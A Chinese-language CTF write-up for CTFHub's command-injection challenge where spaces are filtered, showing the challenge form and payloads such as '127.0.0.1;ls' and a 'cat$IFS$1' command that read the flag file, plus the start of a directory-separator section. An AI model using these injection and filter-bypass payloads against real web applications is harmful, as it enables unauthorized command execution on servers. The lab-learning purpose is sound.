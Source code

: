 ```python
<body>

<h1>CTFHub 命令注入-过滤空格</h1>

<form action="#" method="GET">
    <label for="ip">IP : </label><br>
    <input type="text" id="ip" name="ip">
    <input type="submit" value="Ping">
</form>

<hr>

<pre>
<?php
if ($res) {
    print_r($res);
}
?>
</pre>

<?php
show_source(__FILE__);
?>

</body>
</html>
```

和上一题差不多 但是这题过滤了空格 我们可以使用%09 ${IFS} $IFS$1 ${IFS}$1代替空格

还是先寻找flag所在文件的位置

```python
?ip=127.0.0.1;ls
```

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736924904910-2da0cbb8-f43b-4764-828f-7db53e17dd0b.png)

发现flag

```python
?ip=127.0.0.1;cat$IFS$1flag_32182114630677.php
```

打开源代码后发现flag

![](https://cdn.nlark.com/yuque/0/2025/png/49235244/1736925085805-25ffa0a0-8f73-4d11-85ca-6e4ca2c72400.png)

### 过滤目录分割符
和上一题差不多 不过目录分隔符被过滤了 我们还是先寻找flag所在文件位置

```python
?ip=127.0.0.1;ls
```
